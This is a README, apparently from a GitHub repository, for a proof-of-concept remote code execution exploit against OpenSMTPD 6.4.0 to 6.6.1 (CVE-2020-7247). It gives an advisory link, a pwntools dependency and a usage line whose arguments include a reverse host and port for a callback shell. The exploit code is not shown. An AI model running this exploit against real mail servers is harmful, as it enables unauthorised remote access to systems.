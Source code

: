 ## CVE-2020-7247-exploit
OpenSMTPD 6.4.0 - 6.6.1 Remote Code Execution PoC exploit<br>
Reference: <https://www.openwall.com/lists/oss-security/2020/01/28/3>

## Usage
```
python3 exploit.py <target_host> <target_port> <reverse_host> <reverse_port> <recipient_email>
```
![example](img/example.svg)

## Dependencies
```
pip3 install --user pwntools
```
